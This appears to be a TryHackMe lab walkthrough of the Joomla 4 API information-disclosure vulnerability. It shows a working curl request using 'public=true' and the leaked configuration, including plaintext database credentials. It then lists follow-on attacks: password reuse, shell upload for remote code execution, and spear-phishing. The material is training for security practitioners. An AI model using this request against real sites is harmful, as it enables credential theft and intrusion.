 https://docs.joomla.org/J4.x:Joomla_Core_APIs

Exploiting the vulnerability is simple for a red teamer and only requires setting the value of the public variable from false to true while making the API call. The list of API calls related to users, content, banners, application configuration, etc., can be found at this [link](https://docs.joomla.org/J4.x:Joomla_Core_APIs).

Standard API Call

A general description of normal and malicious API calls is shown below:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/27d74bfb544be68b54e8e85329a6086b.png)  

We can see that an attacker can exploit the application by sending an API request. If we want to get configuration details, we can make the following web call:

  

\api\includes\app.php

```shell-session
thm@ubuntu$ curl -v http://10.10.243.165/api/index.php/v1/config/application?public=true                                                           {"links":{"self":"http:\/\/10.10.243.165\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/10.10.243.165\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/10.10.243.165\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"220","attributes":{"offline":false,"id":220}},{"type":"application","id":"220","attributes":{"offline_message":"This site is down for maintenance.Please check back again soon.","id":220}},{"type":"application","id":"220","attributes":{"display_offline_message":1,"id":220}},{"type":"application","id":"220","attributes":{"offline_image":"","id":220}},{"type":"application","id":"220","attributes":{"sitename":"Joomify Website","id":220}},{"type":"application","id":"220","attributes":{"editor":"tinymce","id":220}},{"type":"application","id":"220","attributes":{"captcha":"0","id":220}},{"type":"application","id":"220","attributes":{"list_limit":20,"id":220}},{"type":"application","id":"220","attributes":{"access":1,"id":220}},{"type":"application","id":"220","attributes":{"debug":false,"id":220}},{"type":"application","id":"220","attributes":{"debug_lang":false,"id":220}},{"type":"application","id":"220","attributes":{"debug_lang_const":true,"id":220}},{"type":"application","id":"220","attributes":{"dbtype":"mysqli","id":220}},{"type":"application","id":"220","attributes":{"host":"localhost","id":220}},{"type":"application","id":"220","attributes":{"user":"root","id":220}},{"type":"application","id":"220","attributes":{"password":"tesla@musk","id":220}},{"type":"application","id":"220","attributes":{"db":"joomla_db","id":220}},{"type":"application","id":"220","attributes":{"dbprefix":"uh020_","id":220}},{"type":"application","id":"220","attributes":{"dbencryption":0,"id":220}},{"type":"application","id":"220","attributes":{"dbsslverifyservercert":false,"id":220}}],"meta":{"total-pages":4}}* Connection #0 to host 10.10.243.165 left intact  
```

Possible Impact

Since the API allows information leakage, including sensitive database credentials, a few of the possible avenues for exploitation are mentioned below:

- Password re-use vulnerability to log in to the **admin panel** of the Joomla application or the server through **SSH/VNC**.
- Connecting to the database and uploading the shell leads to `remote code execution`.
- Extracting private information of the website users and launching spear-phishing campaigns
